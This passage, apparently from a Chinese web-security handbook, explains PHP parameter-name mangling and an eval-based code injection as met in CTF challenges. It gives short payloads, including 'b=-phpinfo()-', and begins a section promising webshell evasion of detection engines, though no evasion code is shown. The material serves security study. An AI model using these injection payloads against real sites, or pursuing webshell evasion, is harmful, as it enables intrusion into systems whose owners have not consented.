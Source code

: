 #### 8.10.1 PHP的变量名特性

```php
if ($_GET['po_p.er'] === "w_ai_tan_ji") {
    echo "恭喜你传参成功";
}
else{
    die('你失败了');
}
```

这是最近CTF遇到的一道题，但 `$_GET['po_p.er']` 无法传入参数，这是因为PHP变量名应该只有数字、字母、下划线；而GET或POST方式传进去的变量名，会自动将以下内容自动转换为 `_`：

```php
空格 + . [
```

但其中有特殊情况：GET或POST方式传参时，变量名中的 `[` 会被替换为 `_`，重点是它后面的字符就不会被替换了，那可以构造以下Payload：

```php
po[p.er=w_ai_tan_ji
```

#### 8.10.2 PHP数字可与字符做运算

在PHP中，数字是可以和命令进行一些运算的，比如 `1-phpinfo()-2` 是可以成功执行phpinfo语句，同样的还有以下运算符：

```php
+ - * | %
```

那我们不妨看以下代码：

```php
$a = (String)$_GET['a'];
$b = (String)$_GET['b'];
$c = (String)$_GET['c'];
if(is_numeric($a) && is_numeric($c)){
    echo "$a$b$c = ".$code;
    $code =  eval("return $a$b$c;");
}
```

构造Payload如下：

```php
a=1&b=-phpinfo()-&c=2
```


# 三、Webshell免杀

## 学习后的免杀效果

学习本手册后，可以达到如下效果，当然这只是拿其中的一个简单的例子进行测试的，感兴趣的可以深入学习并自由组合

#### 牧云Webshell检测引擎：
